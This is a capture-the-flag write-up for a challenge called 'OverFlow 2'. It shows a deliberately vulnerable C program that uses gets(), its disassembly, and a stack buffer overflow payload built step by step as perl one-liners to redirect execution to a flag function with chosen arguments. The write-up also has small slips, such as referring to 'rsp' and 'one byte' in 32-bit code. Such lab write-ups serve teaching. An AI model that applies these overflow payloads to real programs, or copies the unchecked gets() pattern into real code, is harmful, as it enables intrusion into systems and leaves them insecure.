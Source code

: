 # OverFlow 2

Program:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Solution

We want to call: `flag(0xDEADBEEF, 0xC0DED00D)`, this can be achieved by
abusing the insecure `gets` call in `vuln` to overflow the buffer. In
particular overflow the buffer to rewrite the return address from this function
and the location of the arguments to vuln.

### Constructing the Payload to Overwrite Return Address

First let's find the address of the target function:

```
$ objdump -d vuln | grep '<flag>'
080485e6 <flag>:
```

So we want to use `0x080485e6`.

Next let's investigate the disassembled `vuln` function, noting how far from
the top of the stack the buffer is allocated:

```
$ objdump -dM intel vuln | sed -n '/^[a-f0-9]\+ <vuln>/,/^$/p'
08048676 <vuln>:
 8048676:	55                   	push   ebp      <----- -0x4
 8048677:	89 e5                	mov    ebp,esp
 8048679:	53                   	push   ebx      <----- -0x4
 804867a:	81 ec b4 00 00 00    	sub    esp,0xb4 <----- -0xb4 (allocating our buffer)
 8048680:	e8 9b fe ff ff       	call   8048520 <__x86.get_pc_thunk.bx>
 8048685:	81 c3 7b 19 00 00    	add    ebx,0x197b
 804868b:	83 ec 0c             	sub    esp,0xc
 804868e:	8d 85 48 ff ff ff    	lea    eax,[ebp-0xb8]
 8048694:	50                   	push   eax
 8048695:	e8 96 fd ff ff       	call   8048430 <gets@plt>
 804869a:	83 c4 10             	add    esp,0x10
 804869d:	83 ec 0c             	sub    esp,0xc
 80486a0:	8d 85 48 ff ff ff    	lea    eax,[ebp-0xb8]
 80486a6:	50                   	push   eax
 80486a7:	e8 b4 fd ff ff       	call   8048460 <puts@plt>
 80486ac:	83 c4 10             	add    esp,0x10
 80486af:	90                   	nop
 80486b0:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
 80486b3:	c9                   	leave
 80486b4:	c3                   	ret
```

Recalling that the return address of the function will be on the top of the
stack when we enter the function, this means we have to overwrite `0x4 + 0x4 +
0xb4 = 0xbc` bytes before the return address. The first part of our payload
could then be constructed as:

```
$ perl -e 'print "A" x 0xbc . "\xe6\x85\x04\x08"'
```

### Constructing the Payload to Overwrite Parameters

Now let's figure out how parameters are handled in the `flag` function:

```
$ objdump -dM intel vuln | sed -n '/^[a-f0-9]\+ <flag>/,/^$/p'
080485e6 <flag>:
 80485e6:	55                   	push   ebp
 80485e7:	89 e5                	mov    ebp,esp
 80485e9:	53                   	push   ebx
 80485ea:	83 ec 54             	sub    esp,0x54
 80485ed:	e8 2e ff ff ff       	call   8048520 <__x86.get_pc_thunk.bx>
 80485f2:	81 c3 0e 1a 00 00    	add    ebx,0x1a0e
 80485f8:	83 ec 08             	sub    esp,0x8
 80485fb:	8d 83 b0 e7 ff ff    	lea    eax,[ebx-0x1850]
 8048601:	50                   	push   eax
 8048602:	8d 83 b2 e7 ff ff    	lea    eax,[ebx-0x184e]
 8048608:	50                   	push   eax
 8048609:	e8 92 fe ff ff       	call   80484a0 <fopen@plt>
 804860e:	83 c4 10             	add    esp,0x10
 8048611:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 8048614:	83 7d f4 00          	cmp    DWORD PTR [ebp-0xc],0x0
 8048618:	75 1c                	jne    8048636 <flag+0x50>
 804861a:	83 ec 0c             	sub    esp,0xc
 804861d:	8d 83 bc e7 ff ff    	lea    eax,[ebx-0x1844]
 8048623:	50                   	push   eax
 8048624:	e8 37 fe ff ff       	call   8048460 <puts@plt>
 8048629:	83 c4 10             	add    esp,0x10
 804862c:	83 ec 0c             	sub    esp,0xc
 804862f:	6a 00                	push   0x0
 8048631:	e8 3a fe ff ff       	call   8048470 <exit@plt>
 8048636:	83 ec 04             	sub    esp,0x4
 8048639:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
 804863c:	6a 40                	push   0x40
 804863e:	8d 45 b4             	lea    eax,[ebp-0x4c]
 8048641:	50                   	push   eax
 8048642:	e8 f9 fd ff ff       	call   8048440 <fgets@plt>
 8048647:	83 c4 10             	add    esp,0x10
 804864a:	81 7d 08 ef be ad de 	cmp    DWORD PTR [ebp+0x8],0xdeadbeef   <----- arg1
 8048651:	75 1a                	jne    804866d <flag+0x87>
 8048653:	81 7d 0c 0d d0 de c0 	cmp    DWORD PTR [ebp+0xc],0xc0ded00d   <----- arg2
 804865a:	75 14                	jne    8048670 <flag+0x8a>
 804865c:	83 ec 0c             	sub    esp,0xc
 804865f:	8d 45 b4             	lea    eax,[ebp-0x4c]
 8048662:	50                   	push   eax
 8048663:	e8 b8 fd ff ff       	call   8048420 <printf@plt>
 8048668:	83 c4 10             	add    esp,0x10
 804866b:	eb 04                	jmp    8048671 <flag+0x8b>
 804866d:	90                   	nop
 804866e:	eb 01                	jmp    8048671 <flag+0x8b>
 8048670:	90                   	nop
 8048671:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
 8048674:	c9                   	leave
 8048675:	c3                   	ret
```

So the arguments are located at `ebp+0x8` and `ebp+0xc`, so now we would like
to know how `ebp` relates to the state of the stack we've modified. When we
leave `vuln` the address of `flag` is at the top of stack. _From my
understanding_ (based on [this](https://www.felixcloutier.com/x86/ret)) the
`ret` instruction in `vuln` will pop the return address off the stack, so when
we enter this function `rsp` will be pointing one byte _above_ the address
we've overwritten. Now let's find `ebp` in relation to `esp`:

```
080485e6 <flag>:
 80485e6:	55                   	push   ebp      <----- -0x4
 80485e7:	89 e5                	mov    ebp,esp  <----- ebp=esp
```

So our first variable, in `ebp+0x8` will be `0x4` bytes above the address we've
overwritten (and the second variable `0x4` above that). This means we will have
to add some padding before injecting the values we want, so we could construct:

```
$ perl -E 'print "A" x 0xbc . "\xe6\x85\x04\x08"
   . "BBBB"
   . "\xef\xbe\xad\xde"
   . "\x0d\xd0\xde\xc0"'
```

Where the first line is taken from the payload constructed above, the second
line is the required padding and the last two are the variables.
